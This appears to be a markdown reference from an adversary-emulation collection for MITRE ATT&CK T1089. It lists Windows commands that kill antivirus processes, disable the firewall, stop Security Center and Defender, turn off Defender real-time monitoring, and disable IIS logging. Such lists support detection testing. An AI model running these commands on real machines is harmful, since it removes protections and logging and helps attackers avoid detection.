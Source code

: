 # Disabling Security Tools

MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

## Terminate Anti-Virus Processes
`Taskkill /F /IM avprocess.exe`

## Disable Firewall
`netsh firewall set opmode disable`

## Stop Windows Security Center
`net stop wscsvc`

## Stop Windows Defender

### Windows 7/8
`net stop windefend`

### Windows 10
`PS > Set-MpPreference -DisableRealtimeMonitoring $true`

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
`%windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost`

### Restart Default Web Site IIS 7
`%windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"`

